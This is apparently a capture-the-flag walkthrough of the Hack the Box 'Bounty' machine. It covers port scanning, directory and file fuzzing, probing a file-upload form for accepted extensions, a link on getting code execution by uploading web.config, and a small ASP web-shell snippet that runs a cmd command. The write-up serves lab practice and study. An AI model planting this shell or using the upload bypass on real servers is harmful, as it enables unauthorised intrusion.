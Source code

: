 # Hack the Box - Bounty

```CSS
rustscan -a 10.10.10.93 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/7330b783-2899-4178-85f9-f2f4205e5751)

```CSS
nmap -sC -sV 10.10.10.93 -p 80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/059852ea-43b3-440b-b772-658fba2b0935)

HTTP:80
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/0e11f480-8ace-4ef6-8508-72abc975ffac)

HTTP:80 (Source-Code)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b9dfdf95-1160-4519-9a1c-41ac0f452e27)

Directory Fuzzing
```CSS
feroxbuster -u http://10.10.10.93 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -n
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e055ef8b-a99f-477d-8796-95a910bb9a76)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2141f6c4-5b42-48ae-9379-0f2fb9bdb62e)

File Fuzzing
```CSS
feroxbuster -u http://10.10.10.93 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x aspx -s 200 -n
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/17b59a3d-7084-471b-b337-854971c477d4)

Secure File Transfer: File Upload
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e3bc0a21-f5cb-4a33-98e9-69b7adf437f9)

Upload image file with `.jpg` extensions:
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/dba3e40f-666d-4bc3-9f18-e30685f2a8cd)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/19af3c0d-de74-4fd0-a4ce-375f17c8eec1)

Other extensions:
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/1f085b6d-5326-4526-b792-4ead3add7bdf)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/3c9f0e11-6cea-4c15-b6f3-275c1c7682a8)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a4344684-cf50-4610-8f92-1051b1325cde)

RCE by uploading a `web.config` file: https://web.archive.org/web/20200808062615/https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/

Simple Shell:
```CSS
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c ping CHANGE_ME")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```
